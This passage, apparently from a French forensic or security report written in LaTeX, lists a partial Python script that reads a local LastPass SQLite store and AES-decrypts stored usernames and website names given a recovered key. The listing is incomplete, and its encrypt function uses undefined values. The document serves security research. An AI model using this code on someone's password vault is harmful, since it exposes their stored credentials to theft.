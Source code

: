 \section{Accès mémoire}

\begin{lstlisting}[language=python,label=script_dec_lp, caption=Script pour déchiffrer les entrées LastPass]
#!/usr/bin/python
# Author : Leo Corthes

import base64
import re
import sys
import hashlib
from Crypto.Cipher import AES
from Crypto import Random
import string
import sqlite3
from sqlite3 import Error
from shutil import copyfile
from pathlib import Path

# Geto connnection to local SQLite database
# http://www.sqlitetutorial.net/sqlite-python/sqlite-python-select/
def create_connection(db_file):
	try:
		conn = sqlite3.connect(db_file)
		return conn
	except Error as e:
		print(e)
	return None

# Select the field which contains the LastPass encrypted data
def selectEntries(conn):
	cur = conn.cursor()
	cur.execute("SELECT data FROM LastPassData where type=='accts'")
	rows = cur.fetchall()
	for row in rows:
		return str(row)

BLOCK_SIZE = 16
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]
printset = set(string.printable)

# AES-CBC 256 encryption
# Inspired and modified from : https://www.quickprogrammingtips.com/python/aes-256-encryption-and-#decryption-in-python.html
def encrypt(raw, password):
	private_key=bytes.fromhex(KEY)

	raw = pad(raw)
	iv=IV
	cipher = AES.new(private_key, AES.MODE_CBC, iv)
	return base64.b64encode(iv + cipher.encrypt(raw.encode("utf-8")))

# AES-CBC 256 Decryption
def decrypt(enc, key):
	private_key=bytes.fromhex(key)
	enc = base64.b64decode(enc)
	iv = enc[:16]
	retVal=""
	try:
		cipher = AES.new(private_key, AES.MODE_CBC, iv)
		retVal = unpad(cipher.decrypt(enc[16:]))
	except:
		pass
	return retVal

# Look for hexadecimal strings and convert them into ASCII. The URL is stored this way
def lookForWebsiteName(fields):
	b = re.findall(b"[0123456789ABCDEFabcdef]*", fields)
	for e in b:
		if len(e.decode()) > 3:
			try:
				print("Website : " + bytes.fromhex(e.decode()).decode('utf-8'))
			except:
				pass

# Decrypt the username. The encrypted username starts at the beginning of a field and ends with \0\0\0
def decryptUsername(key, field):
	try:
		# First part of the filed contains the username
		encUsername=field.split(b"\0\0\0")[0]
		print("Username : " + decrypt(base64.b64encode(encUsername), key).decode())
	except:
		pass


\end{lstlisting}
